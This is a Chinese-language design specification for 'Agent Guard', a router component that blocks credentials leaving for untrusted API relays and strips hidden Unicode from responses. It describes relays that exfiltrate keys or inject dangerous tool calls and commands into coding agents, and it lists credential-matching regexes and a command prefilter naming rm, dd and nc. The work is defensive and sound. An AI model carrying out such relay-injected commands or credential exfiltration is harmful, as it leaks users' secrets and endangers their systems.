

<!-- Ver 2026-09-17, by Sonnet 5 -->

# Agent Guard 技术规范 2.0

> **本文是 Agent Guard 的唯一现行规范**，被否决/被移除方案的登记见本文附录 B。
> 以第一性原理复审后的最终实现为准：**出向干预只有拒绝（`block`），不存在伪名化/
> 还原**（ADR-6）；**入向在线干预只剩 Unicode 隐写净化一件事，不再拦截、不再合成
> 协议帧、不再终止响应流**（ADR-15）。
>
> **交付状态**：M0–M3 与 M4（收窄后）全部完成（§5）。
>
> **读法**：§1 定位与边界；§2 事实底座；§3 架构决策；§4 可编码契约；§5 交付状态；
> §6 残余风险。只想知道"怎么配、怎么用"的读者，读 §4.5 与 `docs/UserGuide` 即可。

---

## 1. 定位与边界

### 1.1 VMR 能解决什么，不能解决什么

VMR 不是安全产品，不解决 Agent 供应链的全部安全问题，也不该假装能。用户仍然应当
依赖可靠的 API 提供商、可靠的 Coding Agent、可靠的客户端沙箱——这是第一道防线，
VMR 不替代它们。Agent Guard 只以小成本解决 VMR **位置上独有优势**的两个边缘问题：

1. **出向多拦一道**：有些 Coding Agent 自身安全意识不强，`.env`/`~/.ssh` 里的凭据
   会被原样拼进上下文再转发。VMR 是凭据离开本机前的最后一个字节层关口，`block`
   模式能在请求真正离开本机前把它挡下来。
2. **意外泄露的事后可知**：即使前面的防线都做到位，意外仍会发生。离线取证回答
   "上周哪些凭据流向了哪家中转站"，是换密钥、换中转站这类决策的依据，而不是本来
   就看不见的事实。

入向的定位与出向完全不同：Router 的本职是让请求-响应流程走得起来，**不因为不必要
的、意外的因素把链路打断**。所以入向在线只做一件保证不会打断任何东西的事——剥离
隐写 Unicode 字符（不可见字符是唯一一类"客户端审批窗口结构性看不见、VMR 在字节层
能看见"的东西，别的都交给客户端的审批与沙箱）。中转站往回投毒导致的危险工具调用/
命令注入，**由客户端自己的审批门与沙箱把关**——VMR 在这个判断上信息量更少（不知道
工作区、不知道用户意图、无法提问），越权做这件事只会拿到一份更差的判断，而且一旦
拦得不对，代价是把一条本该正常返回的响应打断，这与"保证上下通畅"的入向定位直接
冲突。深度的入向分析（隐写字符按事件分类、危险工具调用、凭据回显）全部下沉到离线
——离线不影响吞吐、不影响时延，可以做得比在线更完整，出了错也只是报告晚一拍，不是
断流。

### 1.2 与 VMR 既有裁决的对齐

**(a) KNOWN_ISSUES 架构红线「MCP 网关与工具执行拦截（不在标准 LLM API 线路上）」**

这条红线现在更清楚地不适用：入向在线干预（曾经的 Tool Call 闸门）已随 ADR-15
整体移除，在线侧不再检查工具调用参数的内容。离线侧的 `InspectToolCall` 分析的是
`vmr analyze` 读取的历史审计日志（`Client.Response.Body` 里的字节），既不代理 MCP
协议，也不与工具运行时通信，甚至不在请求路径上——比"检查响应体一个字段"更进一步，
它读的是磁盘上早已落盘的记录，判别式依旧成立且更宽松：**VMR 不感知工具是否被
执行、不与工具运行时通信、不在任何非 LLM-API 的连接上出现**。

**(b) KNOWN_ISSUES 既有裁决「在源头消灭比运行期脱敏正确：脱敏是永远追不全的黑名单」**

拆成两半句：

- 「在源头消灭更正确」——对 `base_url` 成立（源头是用户自己的配置，VMR 有权拒绝
  加载）。对请求体不成立：源头是 Coding Agent 读取的 `.env`/`~/.ssh`，在 VMR 之外，
  VMR 既无权也无能力消灭。这是本项目唯一的正当性来源。
- 「脱敏是追不全的黑名单」「不做看起来像 key 的启发式」——**完全适用，是本方案最
  重要的约束**。它直接推出 ADR-5 的五锚准入制与 Tier 2 永不在线阻断。出向干预只剩
  对强锚定规则的观测与拒绝（ADR-6），与这条裁决的张力降到最低。这条裁决同样是
  ADR-15 移除入向危险命令在线拦截的理由之一：一份基于模式库的黑名单式命令匹配，
  拦得对不对本身就有争议，把它放在请求路径上、真的去打断响应流，代价和收益不成
  比例。

**(c) 「分析半区标 v1-complete，新增维度从默认冲动改为需理由的例外」**

`macro/guard.json` 是新维度，理由是：它呈现的是**一类此前不存在的事实**——报文
内容层的安全判定，不是对既有五份核心数据的再切分。数据源有二：在线请求由网关盖章
入 `Record.Guard`；未打标的日志由分析半区现场调用 `guard` 的检测函数提取。其中
出向凭据、入向隐写/工具审查、Provider 暴露面归因三项是护栏的必需品（规则集的唯一
校准来源）；供应链 typosquatting 与 fraud 两项属"新想法"，登记 `docs/ROADMAP.md`
R6，默认不进 `vmr analyze` 的默认产出。

### 1.3 系统边界

| 维度 | 内容 |
|---|---|
| **目标** | 离线（分析半区）：把双向取证能力沉进 `vmr analyze`——凭据外泄到了谁手上、上游有没有往回投毒、有没有隐写字符与危险工具调用，全部完整保留、可持续扩充。在线（路由半区）：出向阻断凭据流向不可信中转站（论文分类 AC-2）；入向只做 Unicode 隐写净化，保证响应流不被中转站的隐写载荷污染，**不做危险命令/工具调用的在线检测与阻断**——那是客户端审批与沙箱的职责，VMR 在此判断上信息量更少，越权只会拿到更差的判断，且拦错的代价（打断正常响应）与入向"保证通畅"的定位直接冲突。 |
| **不做** | 不引入 CGO、外部服务、运行期插件；不在请求路径上发起任何外部网络 I/O；不做客户端沙箱与包管理器 Hook（Tier 2 防御，客户端职责）；不做语义级混淆命令的图灵完备分析；**不做入向危险命令/工具调用/受保护路径的在线拦截，不合成协议熔断帧，不为任何入向命中改变 HTTP 状态码**（ADR-15）。 |
| **改动面** | `internal/guard`（检测与干预核心，依赖白名单 `{jsonscan}`）；`report` 消费 guard 的检测函数（`journey` 尚未接入，微观 Journey 步骤级标注是 M2.5，见 §4.7）；`audit` 一个 `Guard` 字段；在线接线为 `server`/`router` 各一个挂载点、`config` 一个 `guard:` section、`vmr diagnose -guard` 探针。`respnorm` / `chatmsg` / `sticky` / `health` / `quota` / `strategy` **零改动**。 |

### 1.4 能力分层与放量路径

| 能力 | 用户价值 | 上线风险 | 状态 |
|---|---|---|---|
| 离线出向凭据审计（"上周你的 Agent 把哪些凭据发给了哪家中转站"） | 高：今天完全看不见的事实 | 零：不上请求路径 | ✅ M2 |
| 离线入向取证（隐写字符 / 危险工具调用 / 凭据回显） | 高：判断中转站干不干净的唯一直接证据 | 零 | ✅ M2 |
| 离线 Provider 暴露面归因（按实际命中的上游归并） | **最高**：前两项是现象，这一项才是可执行的决策 | 零 | ✅ M2 |
| 出向 `audit_only` → `block` | 中：把离线事实变成实时的；block 真的挡住 AC-2 | 低/中：误报即一次被拒绝的请求 | ✅ M3 |
| 入向 Unicode 隐写净化 | 低/中：只在遭遇隐写投毒时体现价值 | **零**：从不阻断、从不改变状态码，失败即原样透传 | ✅ M4（收窄） |
| 主动探针 `vmr diagnose -guard` | 高：主动验证中转站是否作恶 | 零：独立 CLI，显式触发 | ✅ M5 |

**放量路径固化为 `off → audit_only → block`（仅出向）。** 任何在线阻断能力在真实
语料上校准之前投产都是事故源（§2.3 的 `task-specific` 即明证）——这也是入向危险
命令检测最终选择完全不上线、只留离线的根本原因：它从未真正走完这条放量路径就已经
在两轮独立复核里暴露出判定精度问题（§6.1 K-G15），继续留在线上只是把同一类事故
源反复暴露给生产流量。

**离线审计的数据消费机制**（ADR-12）：在线盖章优先（`Record.Guard != nil` 直接
聚合）；`nil` 时（存量日志、护栏关闭期间的流量）由分析半区在 ingest 阶段现场调用
`guard` 的检测函数补扫。这条机制使离线审计完全不依赖在线代码路径——出向 M3、入向
的净化 M4 一行不写，`vmr analyze` 也能端到端消费全量历史日志（`internal/report/
guardscan.go`）。

---

## 2. 事实底座

### 2.1 外部证据

| 断言 | 判定 | 要点 |
|---|---|---|
| arXiv:2604.08407《Your Agent Is Mine》：428 个中转站（28 付费 + 400 免费），9 个主动投毒，17 个触碰了研究者布设的 AWS canary 凭据 | 成立（措辞需收紧） | canary 被触碰是外泄的强证据，不是"后台无差别持久化窃取"；"为期 3 个月""前 50 次 warm-up"两处数字无公开出处，不得引用 |
| 攻击发生在模型推理循环之外，Prompt/对齐类防御全部失效 | 成立，**本项目出向侧唯一的根本正当性** | 每一跳中转都终止入站 TLS，在 JSON 层拿到完整明文，凭据外泄发生在模型看到请求之前——**只能由网关层解决**。入向危险命令则不成立同样的论证：命令是否会被执行，取决于客户端自己的审批与沙箱决策，那个决策点比 VMR 更接近"图灵完备语义"所需的上下文 |
| Meta CodeShield：双层扫描，第一层 ~60ms、第二层 ~300ms，精度 96% 但**召回仅 79%** | 成立 | 召回 79% 决定本方案定位：连 Semgrep 双层重型方案都漏 21%，一个更轻量的模式库在线拦截既不可能补齐这个召回差距，又要承担误伤正常响应的代价——这正是 ADR-15 把危险命令检测整体移回离线的量化依据 |
| 同类项目 `agent-proxy` 明确 blocks unsupported/undecodable request encodings | 成立 | 与出向侧压缩旁路指向同一个坑，是该品类的已知必修项——入向净化仍需处理这个问题（见 ADR-15） |

AC-1（payload injection）/ AC-1.a（dependency-targeted）/ AC-1.b（conditional
delivery）/ AC-2（secret exfiltration）分类学沿用该论文；本方案在线干预现在只覆盖
AC-2（出向 block），AC-1 系列留给客户端沙箱与离线取证。

### 2.2 关键代码事实（设计的直接依据）

- **审计日志本身就是完整的双向双层语料**：`Client.Request` 是客户端原始明文出向
  体；`Client.Response` 是客户端实收的完整响应流（SSE 全文在内，`recorderBodyCap`
  16 MiB 封顶）；`Attempt.*` 是网关↔上游层。因此全部检测能力（含入向 Rune 分档与
  Tool Call 审查）都可以离线交付——这是 ADR-15 敢把危险命令检测整体收回离线、而不
  是"降级"或"留个开关"的底气：离线看到的字节和在线本可能看到的完全一致，唯一
  损失的是"实时"这个属性，而入向的定位本来就不需要实时拦截。
- **出向挂载点的行数预算**：`server.chatHandler` 的函数预算内余量很小，出向接线
  必须是一次函数调用（ADR-4）。

### 2.3 真实语料实测（双向）

对 `logs/` 下全量 63 个审计文件（2026-07-14 ~ 09-13，**63,157 条真实记录**，0 条
解析失败）的双向深度扫描，工具是 `tools/guard_corpus_scan`（规则判定直接调用
`internal/guard`，与在线/离线管线同一套函数）。这批语料早于 Agent Guard 在线代码
落地（M0–M5 集中于 2026-09-15 一次提交），因此是纯粹的"护栏从未介入过"的真实
基线，结论对离线检测层的校准依旧有效——入向在线拦截的移除不影响这些结论的效力，
它们本来就是离线规则集与阈值的校准依据，从未依赖在线拦截存在与否。

**出向（`Client.Request.Body`）**：

- **`generic-sk-prefix`（Tier 2）**：14,363 次命中（全行 29,125 次），33 个唯一
  值——全部是测试夹具、文档占位符与虚拟 Token。
- **`gcp-api-key`（Tier 1）**：129 次，4 个唯一值；**`openai-legacy-key` /
  `openai-project-key` / `github-pat`** 集中于一次"粘贴了整份含多种 Key 的配置
  模板"的典型现场（晨间 5 分钟 23 条请求，五类凭据成组同框）。
- **`jwt`（Tier 1）**：66 次，5 个唯一值，其中 3 个是真实活跃 Bearer Token；
  **`aws-access-key`**：6 次，2 个唯一值（AWS 官方示例与 VMR 自己的测试 Mock）。

**入向（`Client.Response.Body`）**：

- **Unicode 三档**：A 档（Tags block / C0 控制符）**0 次**；B 档 **9 次**（ZWSP
  8 + 软连字符 1），Trojan Source 载体（bidi embedding/override）**0 次**；C 档
  **2,947 次**，其中 2,945 次是 `U+FE0F`（emoji 表现选择符）。
- **工具调用**：经 `chatmsg.ReassembleSSE` 正确重组的真实管线——工具调用 6,382
  次、命令类工具实参内凭据回显 **30 次**（非零）、助手纯文本内回显 107 次。这些
  数字全部来自离线检测层，与在线是否曾经拦截过任何请求无关。

**六条硬结论**（规则集与默认值的全部依据）：

1. 真实语料里绝大多数高频 `sk-` 命中是测试夹具与示例占位符——Tier 2 永不在线
   阻断（K-G5）的实证。
2. `sk-` 泛前缀必须带左边界锚点 `(?:^|[^A-Za-z0-9_+/=-])`——加了锚点后
   `task-specific`/`ask-user-question` 一类自然语言子串误命中全部消失，Tier 1
   FP=0。
3. **长会话放大**成立且显著：单请求内同一凭据出现 ≥2 次的请求占 61.0%，最大单
   请求放大 26 倍。度量必须用**单请求最大重复度**（上下文放大系数）而非命中次数
   ——同一凭据出现 N 次通常是一次泄露被放大 N 次。
4. **全行扫描会双倍计数**：同一请求体在 `Client.Request` 与 `Attempt.Request`
   各记一次。评估真实外泄必须以 `Client.Request` 独立扫描为准。
5. **入向三档分类的零误伤边界被实测钉死**：A/B 档在两个月良性语料里合计 9 次且
   全无 Bidi——默认删除的代价接近于零；C 档 2,945 次全是 emoji 表现选择符，无
   差别删除会当场破坏近三千处正常输出——C 档仅标记是有数据的（K-G7）。
6. **凭据回显的位置分布不是零基线**：命令类工具实参内回显 30 次（非零，值得人工
   复核）、纯文本内 107 次（正常对话场景）。回显检测按位置分开计数（§4.7），且
   这项能力完全在离线检测层，不依赖在线拦截。

---

## 3. 架构决策记录（ADR）

> 编号沿用初版规范：ADR-8 已随被移除的伪名还原机器退役；ADR-3/ADR-7/ADR-9/ADR-10
> 已随 ADR-15（入向在线拦截整体移除）退役。**编号均不复用**（同 K-G2 惯例）。

### ADR-1 Guard 落为独立包 `internal/guard`，依赖白名单 `{jsonscan}`

**决策**：新建 `internal/guard`，在 `archtest` 中注册依赖白名单
`{vmr/internal/jsonscan}`（`zeroInternalDepPackages` 泛化为 `allowedDepPackages`
的第一个非空条目）。理由：`jsonscan` 是系统唯一的 JSON 字节扫描引擎，在 guard 里
复制一份 `SkipJSONString`/`IndexUnescapedQuote` 正是 CLAUDE.md 明令禁止的一整类
bug。**不依赖 `core`**：协议以裸 `string` 传入（取值恰为 `core.Protocol*`），错误
类别由调用方映射——多一次字符串比较，换 guard 不被任何类型演化牵连。

被否决的备选：接进 `respnorm`（违反 `archtest` 导入禁令，且其行数预算几乎无余量，
还会破坏它作为纯 `io.Reader` 层独立 fuzz 的能力）；真零依赖、guard 自带一套 JSON
扫描（违反「唯一扫描引擎」明令）。

### ADR-2 第 6 项受批准偏离：受控安全干预（ADR-15 后收窄）

CLAUDE.md 的首要不变量是字节保真透传且穷举五项例外。Guard 会改写响应内容（隐写
字符净化），确立为**第 6 项受批准偏离**，附四条防腐约束：

1. **严格配置驱动**：不声明 `guard:` 时零代码路径开销、100% 原生透传，由差分
   测试证明而非声称。
2. **改写必留痕，客户端审计不失真**：任何改写都在 `Attempt.Norm` 与
   `Record.Guard` 显式打标。**出向永不改写请求体**（ADR-6），`Client.Request.Body`
   保持 100% 字节保真。
3. **容错边界对称**：出向失败与入向失败**都是 Fail-Open**（退回无护栏现状）。
   ADR-15 之前入向曾是 Fail-Closed（拦截失败等于放过一次可能的 RCE），那个不对称
   性的存在理由是"入向失败可能放进一条 RCE"；入向拦截整体移除后，这个理由不再
   成立——净化失败最坏的后果是"这次没剥掉几个隐写字符"，不是安全事故，Fail-Open
   是唯一自洽的选择。
4. **偏离范围封闭**：改写只发生在入向"响应内隐写字符净化"一处，不做任何其他
   形式的报文重构——不合成协议帧，不终止响应流，不改变 HTTP 状态码。

### ADR-4 出向挂载点：`downscaleImages` 之前，单次函数调用

挂在 `downscaleImages` **之前**（紧随 `TopLevelProbe` 成功之后，需要 `protocol`
与合法 JSON 前提），接线代码 ≤5 行——扫描、判定、审计字段回填全部收在
`guard.Outbound(...)` 一次调用里。

| 维度 | 挂 downscale 之前（采纳） | 挂 downscale 之后 |
|---|---|---|
| 审计语义 | `Client.Request` 保持"降采样前"的完整原貌，`ctxgraph`/`reqdetail` 哈希语义稳定 | 两者的哈希与图片元数据语义同时改变，波及面大 |
| 扫描量 | 大（含原始尺寸 base64） | 小 |

扫描量差异被 ADR-5 的二进制样值跳过消解——被跳过的恰好就是图片，降采样与否对
实际扫描字节数几乎没有影响，而审计语义的稳定性是硬收益。

### ADR-5 出向扫描：JSON 字符串值遍历 + 二进制样值跳过 + 五重锚定准入

三步（`internal/guard/walk.go`/`engine.go`）：

1. 用 `jsonscan` 的字符串边界原语遍历**所有 JSON 字符串值**，不做完整反序列化。
2. 每个值若 `len > 8 KiB` **且** ≥98% 字符落在 base64 字母表 **且** 不含空白/
   换行 → 判为二进制样值，整体跳过（源码文件含换行与标点，不会被误跳）。
3. 剩余值走匹配——Aho-Corasick 字面量预筛 + 锚定正则（ADR-13）。命中只产出审计
   事实或触发拒绝（`Finding`），**不改写**。

**图片误命中的量级推导**（为何第 2 步必须存在）：对 4 MB base64 图片跑
`AIza[0-9A-Za-z_-]{35}`，P("AIza") ≈ (1/64)⁴ × 4×10⁶ ≈ 0.238，后续 35 字符全
落进字符集的概率 ≈ 0.329，期望 ≈ 0.08 次/图（约 8%/4MB）。一次误命中 = 图片正文
被卷入凭据匹配 = 纯噪音误报。数字会随规则集变化，读者应能按此自行重算。

**Tier 1 准入判据 = 五重锚定，缺一不可**（左边界锚由 `NewEngine` 构造期硬校验；
其余以真实语料校准，见附录 A）：

| 锚 | 要求 |
|---|---|
| **左边界** | 模式前必须有 `(?:^\|[^A-Za-z0-9_+/=-])` 断言——§2.3 结论 2 |
| 字面前缀 | 强制性字面量前缀 ≥4 字节，供预筛（三条定长/多段结构规则代偿更短前缀，见附录 A） |
| 定长 | 主体长度固定或有明确下界（≥20 字符） |
| 字符集 | 主体字符集受限且与自然语言不相容 |
| 熵 | 主体 Shannon 熵 ≥ 3.5 bits/char |

`sk-[A-Za-z0-9_-]{20,}` 在左边界、定长、熵三项均不达标，**降级 Tier 2（永远只
审计）**。任何"把 Tier 2 升到在线阻断"的提议，先读 §2.3 结论 1 与 K-G5。

### ADR-6 出向在线干预只有拒绝（`block`）

**决策**：`guard.outbound.mode` 只剩 `off` / `audit_only` / `block`。`block`
严格优于任何改写方案——初版规范曾实现 `mode: replace`（出向伪名化 + 响应端
还原），2026-09-15 第一性原理复审后整体移除，三条理由：

1. **`block` 严格更优**。还原路径本质是一个**解密预言机**：中转站在响应里回显
   伪名并诱导执行（如塞进 `curl` 实参），还原等于主动把真钥双手奉上；作用域门禁
   只能收窄无法消除。且 replace 防不了会篡改响应的主动中间人（AC-1）——面对 AC-1
   唯一正确的出向模式就是 `block`。
2. **replace 的唯一增量价值是错误激励**。它换来的只有"凭据在场时请求仍然成功"；
   而真实语料中全部命中都是事故性粘贴——对事故性粘贴，"请求失败、逼用户处理"
   正是期望行为，摩擦即特性。
3. **缺陷密度实证**。独立复核的全部 S0 级缺陷与主要缺陷都落在 replace/restore
   机器上——全项目同一时期缺陷最密集的部件。

**历史兼容**：配置里再声明 `replace`（或其五个配套旋钮）是**加载错误**，附指向
`block` 的提示。经 Git 历史核实，`mode: replace` 从未随任何正式 Tag 发版，没有真实
生产记录需要兼容，因此相关兼容字段与 replay 影子分支已在极简重构中彻底拔除。

**保留下来不受移除影响的能力**：检测引擎本体（离线审计与在线共用）、以及**凭据
回显检测**——`InspectToolCall` 的 `known` 参数接收本次请求出向已确认的明文凭据
值集合，实参中出现请求自身携带的凭据即攻击信号（`ToolVerdict.Echoed`，bool，
绝不复制凭据本身）。这项能力现在**只在离线检测层**（`report/guardscan.go`）真正
被消费——在线曾经的凭据回显检查见 ADR-15，已随入向拦截一起移除。

### ADR-11 [已废止] Salt 三级解析 —— 见 ADR-12

`Hit.FP` 不再依赖 Salt：批次五第一性原理复审（KNOWN_ISSUES K-G19）核实 HMAC
加盐从未有过真实消费方，已整体降级为确定性哈希，salt 三级解析机制随之整体
移除（`cmd/vmr` 的盐落盘/解析代码、`config.guard.outbound.salt`、启动横幅告警
均已删除）。理由与现状见 ADR-12。编号不复用。

### ADR-12 双层审计天然解耦：权威盖章 + 离线补扫 + 确定性指纹

- **`Client.Request.Body` 保持 100% 字节保真原文**：其使命就是记录客户端原本
  发来了什么（黑盒排障、`vmr diff`、`vmr replay` 的唯一真值基准）。本地单机 0600
  文件已足够安全，网关不应主动销毁客户端真实输入。
- **`Attempt.Request.Body` 忠实记录发往上游的内容**：当前模式下两层恒等（出向
  不改写，ADR-6）；`mode: replace` 从未随任何正式 Tag 发版，没有真实审计记录
  曾经出现过两者不等、或带 `guard_outbound_redacted` 标的情况（ADR-6）。
- **单条凭据的可关联指纹是确定性的 `SHA256(rule.Name ‖ 0x00 ‖ secret)[:16]`，
  不加盐（K-G19，取代原 ADR-12 的 HMAC 设计）**：批次五第一性原理复审判定，
  HMAC 加盐意图防止的"报告单独泄露后被字典离线验证"场景，全系统从未有过一个
  真实消费方——`vmr analyze` 的全部输出（`macro/guard.json`、Markdown/HTML 报表）
  只展示按 FP 分组的整数计数（`UniqueFP`/`UniqueCredentials`），从未把 FP 字符串
  本身序列化输出；而审计文件自身已是 100% 明文（K-G3），加盐指纹相当于给洞开的
  大门里的抽屉多上一把锁。改为确定性哈希后一并解决了两个真实 bug：①
  离线补扫每次运行随机生成盐，导致同一凭据跨 `vmr analyze` 运行（或磁盘 Facts
  缓存命中）派生出不同指纹，虚报唯一凭据数（原 KNOWN_ISSUES §2.168，已随此修复
  关闭）；② 在线盖章使用持久盐、离线补扫使用随机盐，同一次分析里同一凭据若
  同时出现在在线盖章记录与离线补扫记录中，也会被误判成两个不同凭据——这条比
  §2.168 更隐蔽，是本次复审新发现的。确定性哈希让在线/离线/跨运行三条路径
  永远对同一凭据算出同一指纹，副作用是彻底删除 Salt 生命周期管理（三级解析、
  `<rundir>/guard.salt`、热重载告警，原 ADR-11）。派生输入仍绑定规则名，避免
  跨格式碰撞。已知例外：`private-key-block` 的指纹只覆盖 PEM 头部，是类型级
  指纹（KNOWN_ISSUES 有登记）。若未来出现真正需要"不可逆、需持有密钥才能确认"
  这一属性的消费方，可以带着具体用例重新引入 HMAC，而不是预先为一个假设的
  需求设计盐的生命周期。
- **Analyze 消费模式**（对齐 `Attempt.IsForwarded` 黄金范式）：`Record.Guard`
  携带**出向权威判定**（`OutMode` 非空或 `Ver` 非零）时无条件信任其出向结论
  （权威 Fast Path）；否则——`Guard` 整体为 `nil`（`guard:` 缺位、`mode: off`、
  trusted-provider 豁免、早期记录），或仅携带入向盖章（完成钩子填入的
  `SanitizedRunes`，`OutMode` 为空）——在 ingest 阶段现场补扫。补扫是**方向感知**
  的：仅入向盖章的记录只补扫出向半边（请求体），入向数据保持权威，盖章不压制
  出向补扫；全缺的记录双向补扫。两条路径产出同一 `GuardSummary` 结构，来源在
  section 里标注清楚、不混为一谈：盖章记录反映"当时护栏按当时规则集看到了什么"，
  补扫反映"用今天的规则集重看历史会看到什么"——规则集升级后两者本就应当不同。
- **向后兼容**：`Guard` 及其全部字段 `omitempty`，历史日志反序列化为零值；
  `report` 的既有 golden 在 `guard == nil` 时字节不变。

### ADR-13 两级匹配引擎：AC 预筛 + 锚定确认

Go `regexp`（RE2）对多分支模式的吞吐通常在 50–200 MB/s 量级，对 1 MB 请求直接跑
规则集是 5–20 ms。必须两级：

```
Level 1 · 字面量预筛：仓内实现的 Aho-Corasick（prefilter.go，扁平 goto 表，零依赖）
          输入：全部 Tier1/Tier2 规则的强制字面前缀
          无命中时以 memchr 级速度掠过
Level 2 · 命中点锚定匹配：只在 Level 1 报点处跑单条规则的锚定正则 + 熵计算
```

`go.mod` 标准库无 Aho-Corasick，引入新依赖不划算——仓内实现。**离线检测层的出向
扫描与离线入向工具调用检测共用这份预筛机制。**

**并发模型**：`Engine` 是**不可变只读单例**（规则表 + 自动机 + 版本），`Scratch`
是一次扫描的可变工作区（遍历栈、结果缓冲），由调用方按 goroutine 持有——离线是
report 的每个 ingest worker 一个，在线是每个请求 goroutine 一个。无命中路径零
分配。

**离线阈值一律从用户自身语料导出**，不写硬编码常数（易变数字会随模型代际与硬件
失效）。已落地的是凭据规则集校准（附录 A）；其余三项信号（Usage 虚报 /
Typosquatting / Thinking 缺失，属 M2.6 / `docs/ROADMAP.md` R6）按此方法论实现：
同一虚拟模型跨 provider 的分布离群、按 provider 分层导出的估算误差 p95、按名字
长度分档的编辑距离、同 provider 同模型多次一致缺失才升级。

### ADR-14 检测与干预分层

真正区分风险等级的不是出向/入向，是**这段代码有没有上请求路径**：

| | 检测（identify） | 干预（intervene） |
|---|---|---|
| 输入 | 一段字节（请求体/响应体/工具实参） | 同左，出向额外有一条活的连接 |
| 输出 | 结论（命中了什么、在哪、多少次） | 出向：拒绝；入向：净化（原地改写，不终止连接） |
| 位置 | 分析半区（离线）**或**路由半区（在线），同一份逻辑 | 只能在路由半区 |
| 上线风险 | **零** | 出向：低/中（误报即一次被拒请求）；入向：**零**（净化从不阻断，Fail-Open） |
| 可验证性 | 全量历史语料随时重跑，结论可复现 | 出向要么造对抗语料，要么上生产观察；入向的净化正确性可用差分测试直接钉死（净化前后字节差异是纯函数） |

**分层原则**（对后续任何新安全能力继续有效，K-G11）：一切检测能力先以纯函数落进
`internal/guard` 并由 `vmr analyze` 离线消费；"这个只能在线做"必须先证明离线
语料里没有它要的输入——`Client.Request` / `Client.Response` / `Attempt.*` 覆盖
了请求路径上的全部字节。ADR-15 的入向拦截移除正是这条原则反向应用的结果：危险
命令检测从"在线也做一份"收缩回"只在离线做"，因为在线那份从未证明过它比离线版本
多提供了值得承担误伤风险的额外保护——两轮独立复核反而证明它在多处判定不准。

**离线 SSE 装配**：`chatmsg.ReassembleSSE` 是系统唯一的 SSE 解析器，离线检测层
装配好的 `(工具名, 完整实参)` 与文本喂给 `guard`——这保住了 ADR-1 的依赖白名单。
在线净化不需要装配工具调用语义（它只按 SSE 事件边界重分帧、对每个事件的 `data:`
payload 做 JSON 字符串值遍历净化），因此 K-G13（离线/在线两条装配路径的差分
测试要求）随入向拦截移除而**失效**——在线不再装配任何工具实参，没有第二条装配
路径需要与离线保持一致。

### ADR-15 入向在线干预整体移除

**决策**：`internal/guard` 的入向在线干预层——Tool Call 双级闸门
（`toolgate.go`）、三协议熔断帧（`frames.go`）、非流式响应的一次性工具调用扫描
（`nonstream.go`）、opaque/oversize 响应的阻断分支——**整体移除**。`guard.
Inbound` 收窄为一件事：Unicode 隐写字符净化，且净化从不阻断、从不改变 HTTP
状态码、失败时 Fail-Open 原样透传。三条理由：

1. **客户端审批门 + 沙箱是更正确的拦截位置，VMR 在这个判断上信息量更少**。
   Coding Agent 客户端知道工作区、知道用户意图、能向用户提问；VMR 只看到一段
   JSON 字节。同一个"要不要放行这条命令"的判断，放在信息更少的位置做，只会得到
   一份更差的判断——这不是"多一道防线"，是"在错误的位置重做一次本该由更懂上下文
   的一方做的决策"。VMR 不该越权替客户端的审批与沙箱做决定（§1.1）。
2. **缺陷密度实证**。两轮独立复核（`agent-guard-independent-audit-report.md`、
   `agent-guard-review-sonnet-5.md`，均未入库，发现已转登记进 `docs/KNOWN_ISSUES`）
   合计发现十余条问题，其中九条集中在入向在线拦截上：`protected_paths`/
   `blocked_command_categories` 两个配置项解析、校验、填默认值，却从未真正传给
   `guard`（纯死配置）；在线三处 `InspectToolCall(..., nil)` 的 `known` 恒为
   `nil`，凭据回显检测在线完全停火；一级预筛字面量是 `rm`/`dd`/`nc` 这类高频
   通用词，64 次确认预算容易被一份正常长文档烧穿；512 字节确认窗口小于部分高危
   模式的实际跨度；多 choice（`n>1`）场景硬编码只看 `Choices[0]`，存在旁路。这
   与 ADR-6 移除 `mode: replace` 时"缺陷密度实证"是同一形状的证据：一套复杂的
   在线判定机制，比它试图防御的问题本身更容易出错。
3. **默认 `audit_only` 且没有可行的放量路径，等于为一个不存在的用户背维护成本**。
   §1.4 的放量路径要求先在对抗语料上校准才能推进到更强干预；这套机制从上线到
   两轮复核期间从未真正在生产流量上验证过判定精度，也没有计划补一套对抗语料——
   继续维护它只是让下一个读者持续面对一套复杂却从未被验证有效的拦截逻辑。

**保留下来不受移除影响的能力**：

- **检测层的纯函数全部保留**：`InspectToolCall`（工具调用风险判定 + 高危命令库
  + 受保护路径 + 凭据回显）、`ClassifyRunes`（Unicode 三档分类）继续是离线检测
  层的一部分，`report/guardscan.go` 继续消费，`vmr analyze` 的入向取证块不受
  影响——离线不需要"实时"，可以做得比在线曾经做的更完整（见 S4 的必修修复）。
- **入向净化本身保留**：`guard.Inbound` 仍挂在 `respnorm` 下游（读链形状不变），
  仍按 SSE 事件边界重分帧、对每个事件的 JSON 字符串值做 A/B 档隐写字符剥除、
  C 档只计数（§4.4.2 不变）。区别只是净化器不再判定"危险"，只判定"隐写"。
